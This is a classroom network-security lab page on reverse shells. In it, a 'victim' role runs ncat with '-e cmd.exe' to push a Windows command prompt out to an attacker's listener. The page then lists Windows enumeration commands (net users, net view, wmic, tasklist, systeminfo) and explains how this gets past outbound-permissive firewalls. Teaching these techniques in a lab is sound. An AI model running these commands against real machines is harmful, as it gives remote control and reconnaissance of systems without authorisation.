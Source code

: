 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Reverse Shell

## Objective

Learn how attackers can bypass firewalls when there is no direct communication from the attacker’s computer to the victim’s computer.

## Discussion

In this scenario, the attacker has control over their computer so that is why the attacker disables their firewall. It is to simulate the attacker can decide which port to use and open on their system.

This attack is how phishing campaigns work that trick someone into opening a document and the attacker obtains a shell on their computer. The victim is behind a corporate firewall so Even CANNOT connect directly to Alice. Instead, Alice is tricked into opening a document that connects back to Eve’s computer.

## Scenario

Alice is behind a firewall so Eve can't connect directly to her computer.

## Preparation

1. **Alice, change your Windows 10 Network Adapater and set it back to your **_**LAN**_** segment.**
2. **Alice enable your Windows 10 firewall.**
3. **Eve, keep your Windows 10 Network Adapater on the NETSEC-WAN segment.**

**NOTE: When you switch roles, don’t forget to change your network adapters accordingly.**

## Starting the Lab

Eve will start her listener:

Eve (run the command): **ncat -l 8080 -vv**

Alice connects to Eve and gives her computer’s command prompt to Eve. The \*\*-e \*\*means execute. In this case, when Alice connects to Eve, Alice will execute the command **cmd.exe** and push the (command prompt aka shell) over to Eve.

Alice: **ncat -vv X.X.X.X 8080 -e cmd.exe**

Eve should see something like this on her screen:

**Microsoft Windows \[Version 6.1.7601]**

**Copyright (c) 2009 Microsoft Corporation. All rights reserved.**

**c:\Program Files\Nmap>**

You can check by typing:

**ipconfig**

and it should print the IP address of Alice’s computer.

Type some other commands used to enumerate a remote computer. NOTE: Don’t type the # and test. Type the commands in bold.

## Get the list of local users

**net users**

## Enumerate other hosts

**net view**

## Enumerate users on the domain

**net users /DOMAIN**

## List running processes

**tasklist**

## List of services

**tasklist /svc**

## hosts communicated with allows enumeration of the internal systems without special tools like nmap

**arp -a**

## Get installed software versions

## WMIC commands may take a few seconds to show output

**wmic product get name, version, installlocation**

## Running process details

**wmic process**

## OS Details

**wmic os**

## User account details

**wmic useraccount**

## Detailed host information

**systeminfo**

All the commands you are running is part of the process of **enumeration**. If an attacker can run these types of arbitrary commands, they are beginning the process of scoping out your organization.

**BE SURE YOU UNDERSTAND HOW THIS WORKS.**

This evades most firewalls because most firewalls are configured to allow any outbound traffic. Since Eve controls the computer on her end, she can allow Alice to connect to any port on her computer. Even if Alice is behind a restrictive firewall that allows port 80 outbound, Eve can allow her to connect to her computer on Port 80 using the same commands above, except 8080 will become 80.

This is similar to how Malware works. It executes a command and connects back to the attacker's computer system. Just as in the command above, the malware can push the victim's shell back to the attacker.
